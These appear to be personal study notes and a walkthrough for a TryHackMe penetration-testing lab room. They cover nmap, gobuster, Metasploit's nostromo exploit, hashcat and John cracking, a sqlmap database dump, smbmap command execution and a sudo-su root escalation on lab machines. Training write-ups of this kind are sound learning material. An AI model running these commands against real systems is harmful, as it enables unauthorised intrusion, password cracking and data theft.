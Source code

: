# Matheus Jesus 07-04-2020

## Try Hack Me - [CC: Pen Testing](https://tryhackme.com/room/ccpentesting)

### NMAP

* -p specify port
* -sn ping host
* -sU UDP
* -sC default scripts
* -o OS detection
* -sV version

#### Deploy machine

nmap -sC -sV -oN nmap_initial **IP**

http-title: Apache2 Ubuntu Default Page: It works

### NETCAT

* -l listen
* -v verbose
* -p port
* -e execute file
* -u UDP

#### nc -nlvp **PORT**

### GO Buster

#### Find directories

##### /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

```sh
gobuster dir -u 10.10.183.224 -w /usr/share/wordlists/rockyou.txt
```

Found /secret

```sh
gobuster dir -u 10.10.183.224/secret -w /usr/share/wordlists/rockyou.txt -x xxa
```

Found /password.xxa

### Nikto

* Web Scanning
* Find vulnerabilities
* CVEs

#### nikto -h 10.10.183.234

### Metasploit

use **exploit/multi/http/nostromo_code_exec**

set RHOSTS and LHOST

exploit

#### Inside the exploit

ls /var/nostromo/htdocs

##### Spawn TTY

python -c 'import pty; pty.spawn("/bin/bash")'

cat /var/nostromo/htdocs/s3cretd1r/nice

### Hashcat

hashcat -m 0 -a 0 56ab24c15b72a457069c5ea42fcfc640 /usr/share/wordlists/rockyou.txt --force

MD5 56ab24c15b72a457069c5ea42fcfc640:happy

MD4 4bc9ae2b9236c2ad02d81491dcb51d5f:nootnoot

### John The Ripper

#### Whan can John decrypt

john --list=formats

#### Decrypting

john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 5d41402abc4b2a76b9719d911017c592

john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1 johnSHA1

### SQLMap

[SQL Injection Reference](https://owasp.org/www-community/attacks/SQL_Injection)

#### IP 10.10.151.139

sqlmap -u 10.10.151.139 --forms
The command will try to exploit the SQL with different injections.

This one found --dbms=mysql
and found 3 scripts for injections

#### DUMP

sqlmap -u 10.10.151.139 --dump --dbms=mysql --forms
The command will utilize the known exploits to access the database and retrieve all data.
It then dumps into a csv file.
There is a database called tests with a table msg and a table lol. (lol.csv and msg.csv)

### SMB

#### SMBMAP

smbmap -u "admin" -p "password" -H 10.10.10.10 -x ipconfig

#### SMBClient

Offers SMBMAP and a prompt

#### [Impacket](https://github.com/SecureAuthCorp/impacket)

Scripts for exploting windows machines over SMB and other protocols

### PRIVILEGE ESCALATION

#### General

[A bunch of tools and payloads for every stage of pentesting](https://github.com/swisskyrepo/PayloadsAllTheThings)

#### Linux

[a bit old but still worth looking at](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[One of the most popular priv esc scripts](https://github.com/rebootuser/LinEnum)
[Another popular script](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)
[A Script that's dedicated to searching for kernel exploits](https://github.com/mzet-/linux-exploit-suggester)
[I can not overstate the usefulness of this for priv esc, if a common binary has special permissions, you can use this site to see how to get root perms with it.](https://gtfobins.github.io)

#### Windows

[Dictates some very useful commands and methods to enumerate the host and gain intel](https://www.fuzzysecurity.com/tutorials/16.html)
[A bit old but still an incredibly useful script](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)
[A general enumeration script](https://github.com/411Hall/JAWS)

### Final Exam

#### IP 10.10.118.41

#### GOBuster

gobuster dir -u 10.10.118.41 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
Found /secret

##### Stupid hint from walkthrough, there is a hidden secret.txt file inside secret folder

gobuster dir -u 10.10.118.41/secret -w /usr/share/wordlists/rockyou.txt -x txt
Found /secret/secret.txt

nyan:046385855FC9580393853D8E81F240B66FE9A7B8

#### Crack nyan password

hashid 046385855FC9580393853D8E81F240B66FE9A7B8 -> SHA1
hashcat -m 100 -a 0 046385855FC9580393853D8E81F240B66FE9A7B8 /usr/share/wordlists/rockyou.txt --force

nyan:nyan

#### SSH

ssh nyan@10.10.118.41
nyan

cat user.txt > supernootnoot

```sh
sudo -l

Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
```

#### LinPeas

scp /opt/linPEAR/linpeas.sh nyan@10.10.118.41:/dev/shm

[+] User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su

```sh
User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
nyan@ubuntu:/dev/shm$ sudo su
root@ubuntu:/dev/shm# whoami
root
```

nyan can run sudo su

as root -> cat /root/root.txt -> congratulations!!!!
